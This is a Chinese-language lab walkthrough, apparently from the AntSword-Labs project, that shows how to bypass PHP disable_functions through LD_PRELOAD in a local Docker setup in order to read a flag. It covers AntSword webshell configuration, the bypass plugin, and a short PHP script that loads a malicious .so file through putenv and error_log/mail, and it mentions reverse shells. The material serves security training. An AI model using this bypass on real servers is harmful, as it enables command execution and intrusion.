 ## 01 利用 LD_PRELOAD 环境变量

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

### 使用条件

* Linux 操作系统
* `putenv`
* `mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`
* 存在可写的目录, 需要上传 `.so` 文件

###  绕过实验

我们的最终目的是获取 `/flag` 的内容, 这个文件是 644 权限，`www-data` 用户无法通过读文件的形式读到内容, 需要执行拥有 SUID 权限的 `tac` 命令(具体看 `/start.sh`)来获取 flag

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:
`http://127.0.0.1:18080/index.php` | `ant`
`http://127.0.0.1:18080/shell.php` | `ant`

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2019/07/08/5d2224b0aa7ad32603.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"YoW1ftyOv7JjrLmN","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562517866376}
```

3. 尝试使用虚拟终端执行命令, 无果

![2.png](https://i.loli.net/2019/07/08/5d2224b31884b21027.png)

4. 使用「绕过 disable_functions」插件, 选择 `LD_PRELOAD` 模式进行

![3.png](https://i.loli.net/2019/07/08/5d2224b4ecaf383830.png)

详细使用方法请点 [这里](https://mp.weixin.qq.com/s/GGnumPklkUNMLZKQL4NbKg)

成功后可以看到 `/var/www/html/` 目录下新建了一个 `.antproxy.php` 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 `.antproxy.php`, 就可以成功执行命令。

![4.png](https://i.loli.net/2019/07/08/5d2224b7e1e2696154.png)

**注意**

从上图可看出来，我们利用 LD_PRELOAD, 在目标机器的 lo 上用 PHP 启动了一个 http server, 并且加载的是 PHP 默认配置。

所以我们需要在插件中填写正确的 php 可执行文件的路径(如果在环境变量中, 可以直接写 `php`)

5. 尝试文件管理直接用 PHP 读 flag, 肯定是读不到的

![5.png](https://i.loli.net/2019/07/09/5d241ee38a56c78243.png)

然后我们改用 tac 命令来获取 flag

![6.png](https://i.loli.net/2019/07/09/5d241eed1677e95411.png)

#### 手动

原理脚本如下:

```
<?php
  putenv("LD_PRELOAD=/tmp/hack.so");
  error_log("a",1);
  mail("a@localhost","","","","");
?>
```

利用 LD_PRELOAD 环境变量, 加载 hack.so, 在 hack.so 中执行命令.

我们可以直接利用 hack.so 反弹 shell, 或者将输出重定向到文件当中
